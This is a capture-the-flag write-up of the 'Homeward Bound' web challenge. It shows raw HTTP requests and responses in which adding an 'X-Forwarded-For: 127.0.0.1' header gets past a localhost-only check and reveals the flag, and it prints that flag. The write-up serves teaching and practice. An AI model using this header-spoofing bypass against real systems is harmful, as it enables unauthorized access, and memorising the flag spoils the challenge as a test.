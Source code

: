 # Homeward Bound

Tags:

## Challenge

>Author: @JohnHammond#6971
>
>I can't get anything out of this website... can you find anything interesting?
>
>NOTE: That message is intended. This challenge is working as it should.
>
>Press the Start button on the top-right to begin this challenge.
>
>Connect with:
>
> http://challenge.nahamcon.com:32407


## Solving

### Original Request
```
GET / HTTP/1.1
Host: challenge.nahamcon.com:32407
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

Server response:

```
HTTP/1.1 200 OK
Date: Wed, 17 Mar 2021 12:02:56 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.0.33
Vary: Accept-Encoding
Content-Length: 1241
Connection: close
Content-Type: text/html; charset=UTF-8


Sorry, this page is not accessible externally.
```

### Modified Request
```
GET / HTTP/1.1
Host: challenge.nahamcon.com:32407
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

Server response:
```
HTTP/1.1 200 OK
Date: Wed, 17 Mar 2021 12:15:46 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.0.33
Vary: Accept-Encoding
Content-Length: 1285
Connection: close
Content-Type: text/html; charset=UTF-8


Welcome! Your internal access key is: flag{26080a2216e95746ec3e932002b9baa4}
```

`flag{26080a2216e95746ec3e932002b9baa4}`

### Informations

https://tools.ietf.org/html/rfc7239

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For
https://docs.aws.amazon.com/elasticloadbalancing/latest/classic/x-forwarded-headers.html

